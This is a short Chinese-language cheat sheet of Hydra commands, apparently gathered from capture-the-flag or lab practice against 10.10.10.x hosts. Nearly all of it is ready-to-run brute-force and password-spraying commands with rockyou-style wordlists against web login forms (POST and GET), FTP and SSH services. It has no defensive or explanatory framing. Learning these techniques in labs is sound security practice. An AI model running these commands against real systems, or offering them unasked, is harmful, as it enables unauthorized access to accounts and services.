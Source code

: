 # Hydra 实战语句

- 破解列表

```
    sudo hydra -L users.txt -P wordlist.txt
```

- 破解单个

```
    sudo hydra -l "aaa" -P wordlist.txt
```

- WebSite POST 破解

```
sudo hydra -l "key" -P /usr/share/wordlists/rockyou.txt 10.10.10.7 http-form-post "/kzMb5nVYJw/index.php:key=^PASS^:invalid key"
```

-  Ftp 密码喷射

```
sudo hydra -L hash/users.lst -P /usr/share/wordlists/rockyou.txt ftp://10.10.10.35 -f
```

- ssh 密码喷射

```
hydra -l sword -P passwords.txt ssh://10.10.10.5 -t 30 -V
```

- 破解登入框

```
sudo hydra -l shaldon -P password.txt -f 10.10.10.39 -s 80 http-get /the_real_secret_dir
```